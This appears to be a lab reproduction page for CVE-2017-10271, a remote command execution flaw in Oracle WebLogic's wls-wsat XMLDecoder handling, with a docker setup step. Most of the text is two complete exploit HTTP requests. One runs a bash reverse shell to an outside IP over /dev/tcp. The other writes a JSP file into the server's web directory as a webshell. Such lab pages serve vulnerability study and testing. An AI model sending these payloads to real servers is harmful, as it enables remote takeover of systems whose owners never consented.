

Weblogic < 10.3.6 'wls-wsat' XMLDecoder Deserialization Remote Command Execution (CVE-2017-10271)¶
Oracle Weblogic Server is a popular enterprise application server that provides a wide range of features for building and deploying enterprise applications.
The WLS Security component of Weblogic provides webservice services, which uses XMLDecoder to parse XML data submitted by users. During the parsing process, a deserialization vulnerability occurs, allowing arbitrary command execution.
Reference links:
- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html
Environment Setup¶
Start a vulnerable Weblogic server 10.3.6.0-2017:
docker compose up -d
Wait for a while, visit http://your-ip:7001/ and you will see a 404 page, indicating that weblogic has started successfully.
Vulnerability Reproduce¶
Send the following request (note that the reverse shell command needs to be encoded, otherwise XML parsing will result in format errors):
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/10.0.0.1/21 0>&1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
Successfully obtained shell:

Write webshell (access: http://your-ip:7001/bea_wls_internal/test.jsp):
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java><java version="1.4.0" class="java.beans.XMLDecoder">
<object class="java.io.PrintWriter">
<string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
<void method="println"><string>
<![CDATA[
<% out.print("test"); %>
]]>
</string>
</void>
<void method="close"/>
</object></java></java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>